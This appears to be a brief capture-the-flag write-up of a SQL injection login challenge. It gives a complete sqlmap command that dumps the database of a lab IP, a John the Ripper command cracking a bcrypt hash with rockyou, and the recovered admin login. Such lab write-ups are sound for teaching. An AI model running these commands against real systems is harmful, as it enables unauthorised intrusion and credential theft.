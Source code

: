 ![alt text](image.png)

this is sql injection vulnerability so we gonna use sqlmap to do it but we need to start to check payload from request first via burp
as u can see they use username=&password= so let's tart sqlmap
sqlmap -u 'http://94.237.58.224:36425/' --method="POST" --data="username=test&password=test" -p username --level 5 --risk 3 -batch --dump --dbms="MySQL" --ignore-code=401,500 
![alt text](image-1.png)
![alt text](image-2.png)
we got credential now and next we need to solve the hash via john
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash.txt
then login via admin and password123
![alt text](image-3.png)